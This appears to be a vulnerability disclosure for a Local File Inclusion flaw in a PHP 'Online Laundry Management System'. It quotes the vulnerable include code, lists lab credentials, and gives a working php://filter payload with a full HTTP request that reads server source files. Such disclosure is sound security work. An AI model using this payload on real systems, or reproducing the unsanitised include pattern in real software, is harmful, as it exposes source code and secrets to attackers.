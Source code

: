 ## Online Laundry Management System

## Local File Inclusion (/index.php)

### Vendor Homepage:

```
https://www.campcodes.com/downloads/online-laundry-management-system-source-code/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/login.php
admin
admin123
```

### Affected Page:

```
/index.php
```

A vulnerability was discovered in the page `/index.php`. An authenticated user has the capability to access and read PHP files from the operating system by exploiting a Local File Inclusion (LFI) vulnerability through the wrapper filter.

```php
# index.php
42 <?php $page = isset($_GET['page']) ? $_GET['page'] :'home'; ?>
43 <?php include $page.'.php' ?>
```

### Proof of Concept:

**Payload：**

```
php://filter/convert.base64-encode/resource=index
```

**Burp Request：**

```
GET /index.php?page=php://filter/convert.base64-encode/resource=index HTTP/1.1
Host: 192.168.150.131
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=odflank1n9b26vhfh1heeu1u4j
Connection: close


```

**Screenshot：**

![image-20240512152943770](./screenshot/image-20240512152943770.png)



